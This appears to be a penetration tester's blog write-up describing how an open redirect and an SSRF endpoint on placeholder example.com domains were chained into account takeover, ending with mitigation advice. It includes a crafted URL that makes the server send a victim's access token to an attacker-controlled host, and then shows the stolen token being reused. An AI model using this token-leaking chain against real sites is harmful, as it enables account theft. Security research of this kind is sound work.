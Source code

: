 ```yaml
---
icon: spider-black-widow
description: "From Useless Open Redirect and Useless SSRF to Full Account\_Takeover."
cover: >-
  https://images.unsplash.com/photo-1670884307082-b1df3a86a746?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwxMHx8YmxhY2slMjBob2xlfGVufDB8fHx8MTcyMzk1MTE2NHww&ixlib=rb-4.0.3&q=85
coverY: 0
---
```


# One-Click-ATO

## **Introduction**

In modern web applications, vulnerabilities often coexist in a complex ecosystem of features and endpoints. While a single vulnerability might seem harmless, when combined with another, it can lead to severe consequences. This write-up details how I'm, **z1x**, during a penetration testing engagement @[_BugSwagger LLC_](https://bugswagger.com/), chained an useless open redirect vulnerability with a server-side request forgery (SSRF) to achieve a full account takeover, bypassing security mechanisms that might otherwise seem robust.

## **Vulnerability 1: Whitelisted Open Redirect**

The journey begins with a whitelisted open redirect vulnerability in the login flow of `*.example.com`. Open redirects are often considered zero-risk, but when improperly implemented, they can be a gateway to more significant exploits.

### **Identifying the Issue**

The application’s login endpoint at `account.example.com` allows redirection to any subdomain within `*.example.com` after successful authentication. The vulnerable URL looks like this:

```python
https://account.example.com/login?signin=admin&redirect-to=*.example.com
```

<figure><img src="../../.gitbook/assets/Pasted image 20240818054733.png" alt=""><figcaption><p>White Listed and Useless Open Redirect</p></figcaption></figure>

After processing, the application redirects users along with an access token:

```python
https://app.example.com/?accsestoken=eyJ***************.eyJ***************.yCY5k***********0rfvZ51WzcHSe3NBrS8
```

This redirection behavior, combined with the inclusion of an access token, sets the stage for a potential attack.

<figure><img src="../../.gitbook/assets/Pasted image 20240818055137.png" alt=""><figcaption><p>Account JWT Leaked In GET Request</p></figcaption></figure>

## **Vulnerability 2: SSRF on a Whitelisted Subdomain**

Next, we discovered an SSRF vulnerability within the API subdomain `api.example.com`. SSRF vulnerabilities allow an attacker to make arbitrary HTTP requests from the server, potentially accessing internal services or even the internet.

### **Examining the SSRF Endpoint**

The vulnerable API endpoint is designed to reverse file contents and is accessible via the following URL:

```python
https://api.example.com/v1/files/reverse?target=http://HTTP-SERVER.COM/
```

<figure><img src="../../.gitbook/assets/Pasted image 20240818055648.png" alt=""><figcaption><p>Useless SSRF Interaction</p></figcaption></figure>

Normally, this SSRF might be limited in scope, especially if the server is well-segmented. However, the fact that `api.example.com` is a whitelisted subdomain in the open redirect functionality adds a critical dimension to this vulnerability.

## **Chaining the Vulnerabilities**

Here’s where the magic happens. By combining the open redirect vulnerability with the SSRF, we can escalate the situation dramatically.

### **Crafting the Exploit**

We can exploit the open redirect by targeting the SSRF endpoint directly:

```python
https://account.example.com/login?signin=admin&redirect-to=https://api.example.com/v1/files/reverse?target=http://our-httpserver/?token=
```

This crafted URL does the following:

1. **Step 1:** The user authenticates at `account.example.com`, which then attempts to redirect them to a whitelisted subdomain.
2. **Step 2:** The redirect targets the SSRF endpoint at `api.example.com` instead of the intended `app.example.com`.
3. **Step 3:** The SSRF endpoint is tricked into making a request to our server (`http://our-httpserver/?token=`), effectively leaking the access token.

<figure><img src="../../.gitbook/assets/Pasted image 20240818060207.png" alt=""><figcaption><p>JWT of Victim Leaked After Clicking Crafted URL </p></figcaption></figure>

### **Achieving Account Takeover**

With the access token in hand, we can craft a legitimate request to `app.example.com`:

```python
https://app.example.com/?accses_token=eyJ***************.eyJ***************.yCY5k***********0rfvZ51WzcHSe3NBrS8
```

This allows us to impersonate the victim user and take over their account, all from a seemingly innocuous open redirect combined with a simple SSRF.

## **Mitigation Strategies**

To prevent such exploits, consider the following strategies:

* **Tighten Whitelists:** Avoid overly broad whitelists for redirects. Only allow specific, necessary domains.
* **Token Handling:** Avoid including sensitive tokens in URLs. Use secure storage mechanisms like cookies with HTTP-only flags.
* **SSRF Protections:** Implement strict input validation and response filtering for SSRF-prone endpoints.

## **Conclusion**

This case illustrates how two vulnerabilities, which might be considered low-risk individually, can be chained to create a critical security breach. It’s a reminder that thorough vulnerability analysis must consider the potential for chaining attacks, and developers should build security mechanisms with this in mind. My experience @[_BugSwagger LLC_](https://bugswagger.com/) highlights the importance of understanding how different vulnerabilities interact within a system, ultimately helping secure our digital future.
